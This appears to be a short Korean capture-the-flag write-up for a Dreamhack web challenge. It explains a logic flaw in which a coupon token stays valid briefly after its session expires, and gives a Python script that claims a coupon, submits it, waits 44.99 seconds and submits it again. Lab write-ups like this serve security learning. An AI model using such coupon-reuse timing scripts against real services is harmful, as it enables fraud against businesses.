 # 키워드
- 스크립트 작성
- 세션
- 논리오류

# 풀이
*처음에 jwt문제인줄 알았지만 아니였고, 레컨 문제인줄 알았지만 그것도 아니였음*

- 세션은 삭제되었지만 JWT는 만료가 안되는 때가 존재함을 이용함 
- 문제 풀이 당시 학교라 남들보다 0.01초 차이 정도 발생했음
```python
import requests as req
import json
import time
import threading

domain = "http://host3.dreamhack.games:13654"


def get_session():
    url = domain + "/session"
    res = req.get(url=url)
    session_json = json.loads(res.text)
    session = session_json["session"]
    return session


def coupon_claim(session):
    url = domain + "/coupon/claim"
    headers = {"Authorization": session}
    res = req.get(url=url, headers=headers)
    coupon_json = json.loads(res.text)
    coupon = coupon_json["coupon"]
    return coupon


def coupon_submit(session, coupon):
    url = domain + "/coupon/submit"
    header = {"Authorization": session, "coupon": coupon}
    res = req.get(url=url, headers=header)
    print(res.text)


if __name__ == "__main__":
    session = get_session()
    print(session)
    coupon = coupon_claim(session)

    coupon_submit(session=session, coupon=coupon)

    time.sleep(44.99)

    coupon_submit(session=session, coupon=coupon)

```
